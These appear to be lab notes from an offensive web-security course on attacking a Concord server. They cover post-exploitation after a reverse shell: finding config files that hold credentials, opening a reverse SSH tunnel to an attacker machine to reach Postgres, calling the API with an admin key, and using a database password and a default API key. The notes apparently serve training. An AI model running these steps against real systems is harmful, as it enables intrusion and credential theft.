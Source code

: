 We can remote mount the concord directories with:
```bash
sshfs -o allow_other,default_permissions student@concord:/home/student/concord-1.43.0 /home/vagrant/Desktop/awae/concord/part-1/1.43
```
```bash
sshfs -o allow_other,default_permissions student@concord:/home/student/concord-1.83.0 /home/vagrant/Desktop/awae/concord/part-1/1.83
```
Part 1 ExtraMile:  
Our reverse shell lands us in a docker container.  

We should promote the shell to a fully interactive tty.  
Python2.7 is installed on the container.  
We can find the concord.conf file with: 
```bash
find / -type f -name *.conf 2>/dev/null
```
The concord.conf file contains credentials to a posgres db.
In order to access the postgres port with our java client from our kali box we can do a reverse tunnel (from within the reverseshell):
```bash
ssh -N -R 5432:172.18.0.4:5432 tunnelboy@192.168.119.130 -o "StrictHostKeyChecking=no"
```
We can build our jdbc client with compile.ps1  

Searching the codebase:
```powershell
gci -Recurse -Filter "*.java" |  sls -Pattern salt | select line,path
```
concord documentation: https://web.archive.org/web/20201123223951/https://concord.walmartlabs.com/docs/api/secret.html
Api Token creation at: https://github.com/walmartlabs/concord/blob/master/server/liquibase-ext/src/main/java/com/walmartlabs/concord/server/liquibase/ext/ApiTokenCreator.java
Specific Location is ApiKeyDao.java

Interacting with api with admin auth key
iwr -Uri 'http://concord:8001/api/v1/apikey' -Headers @{ Authorization = "basic "+ [System.Convert]::ToBase64String([System.Text.Encoding]::ASCII.GetBytes("KLI+ltQThpx6RQrOc2nDBaM/8tDyVGDw+UVYMXDrqaA"));ContentType= "application/json"}
curl -H "Authorization: basic KLI+ltQThpx6RQrOc2nDBaM/8tDyVGDw+UVYMXDrqaA" -H "Content-Type: application/json"  http://concord:8001/api/v1/apikey

As a side note we can also enter the docker container manually with:
``` bash
sudo docker exec -it concord1430_concord-server_1 /bin/bash
```

I'm not sure why I didn't realize this but we can check out the database with psql,
```bash
psql 'postgresql://postgres:quake1quake2quake3arena@localhost:5432/postgres'
```

We can log in with an api key at the following url:
http://concord:8001/#/login?useApiKey=true

Default apikey: O+JMYwBsU797EKtlRQYu+Q